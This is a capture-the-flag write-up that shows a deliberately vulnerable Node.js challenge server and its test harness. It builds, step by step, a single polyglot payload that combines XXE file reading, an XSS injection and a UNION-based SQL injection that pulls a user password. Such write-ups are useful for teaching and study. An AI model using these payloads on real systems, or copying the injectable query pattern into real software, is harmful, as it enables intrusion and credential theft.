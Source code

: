 ```yaml
---
title: "a-payload-to-rule-them-all"
date: 2020-06-08
tags: [web]
draft: false
---
```

This one gives us a post endpoint for a payload that needs to exploit xxe, xss,
and sqli (sql injection), as well as the code for the server.

```server.js
const express = require("express")
const app = express()
const bodyParser = require("body-parser")
const port = 31337
const { execFile } = require("child_process")
const fs = require("fs")
const rateLimit = require("express-rate-limit");
app.use(express.static("static"))
app.use(bodyParser.urlencoded({ extended: true }))
const limiter = rateLimit({ windowMs: 10 * 60 * 1000, max: 50 });
// 15 minutes  // limit each IP to 100 requests per windowMs 
app.use('/', limiter);
app.post('/', (req, res) => {
    const test_payload = execFile("/usr/sbin/gosu", ["gnx", "/home/gnx/script/test_payload.js",
        req.body.payload], (error, stdout, stderr) => {
            if (stdout.toString().trim() === "parabens hackudo") {
                res.send(process.env.FLAG)
            } else { 
                res.send("nope") 
            }
        }); 
        console.log(req.body.payload)
})
app.get('/source', (req, res) => {
    var out = "/usr/src/app/index.js :\n\n" +
        fs.readFileSync("/usr/src/app/index.js").toString() +
        "\n\n"
    out += "/home/gnx/script/test_payload.js :\n\n" +
        fs.readFileSync("/home/gnx/script/test_payload.js") +
        "\n\n"
    res.send(out)
})

app.listen(port, '0.0.0.0', () => console.log(`Chall rodando em http://localhost:${port}`))
```

as well as the `test_payload.js` referenced above:

```test_payload.js
#!/usr/bin /env node
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")

function test_xxe(payload) {
    try {
        var my_secret = Math.random().toString(36).substring(2);
        fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
        var doc = libxml.parseXml(payload, { noent: true, nonet: true })
        return doc.toString().includes(my_secret)
    } catch (e) { return false }
}

async function test_xss(payload) {
    try {
        const browser = await puppeteer.launch({
            args: ['--no-sandbox', '--disable-setuid-sandbox', '--disable-dev-shm-usage', '--disable-accelerated-2d-canvas', '--no-first-run', '--no-zygote', '--single-process', '--disable-gpu']
        })
        const page = await browser.newPage()
        page.setDefaultNavigationTimeout(1000);
        payload = sanitizeHtml(payload, { allowedTags: [] })
        await page.goto(`data:text/html,<script>${payload}</script>`)
        const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )")
        // vlw herrera
        await browser.close()
        return check
    } catch (error) {
        console.error(error)
    }
}

async function test_sqli(payload) {
    var connection = mysql.createConnection({
        host: process.env.MYSQL_HOST || "127.0.0.1",
        user: process.env.MYSQL_USER,
        password: process.env.MYSQL_PASSWORD,
        database: process.env.MYSQL_DATABASE,
        charset: 'utf8',
        dialectOptions: { collate: 'utf8_general_ci', },
    })
    const query = util.promisify(connection.query).bind(connection)
    connection.connect()
    const users = await query("SELECT * from users")
    try {
        const sqli = await query(`SELECT * from posts where id='${payload}'`)
        await connection.end()
        return JSON.stringify(sqli).includes(users[0]["password"])
    } catch (e) {
        return false
    }
}

function main(args) {
    var xss = test_xss(args[0])
    var sqli = test_sqli(args[0])
    var xxe = test_xxe(args[0])
    Promise.all([xss, sqli]).then(function (values) {
        if (values[0] && values[1] && xxe) {
            console.log("parabens hackudo")
        } else {
            console.log("hack harder")
        }
        process.exit(0)
    })
}
main(process.argv.slice(2))
```

I realized I'd need something that parsed as valid js, valid sqli, and valid
xml, to some extent, which was the hardest part of the puzzle.

The xml attack was pretty easy to test locally and pretty easy to come up with.
As simple as this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
```

Next, getting some validly parsing sql by ending the quote, and tacking
a comment on the end with `#`:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>&xxe;</r>
<!--' union select password from users limit 1;#-->
```

It was a bit of a struggle to get the js to work (need to inject `xss=true;`), even with the assist of
sanitize-html. The sanitize-html call basically stripped out all of the xml 
and comments, which was mostly helpful, so something like this almost works:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret"><r>;xss=true;//&xxe;</r>
<!--' union select password from users limit 1;#-->
```

But you end up with something like: `]>;xss=true;//&xxe;` and the `];` doesn't
run.

I spent a while struggling with this piece, until a teammate suggested trying
another entity to inject a comment around the garbage:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password from users;#-->
```

And the last piece was figuring out how many columns was in the posts table, so
we could match the union injection--took a few tries, but I just tacked on `,1`
until it ran and gave the flag. I think it was 4 columns, but don't remember at
this point. The `limit 1` isn't necessary but it seemed kind not to pull in the whole
table cartesian product ;) --the result was something like this:

```payload.xml
<!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
<!ENTITY xxe2 SYSTEM "xxe_seed>/*">]><r>*/xss=true;//&xxe;</r>
<!--' union select password, 1, 1, 1 from users limit 1;#-->
```

Note: it needs to be all one one line, but I broke it up for visibility.
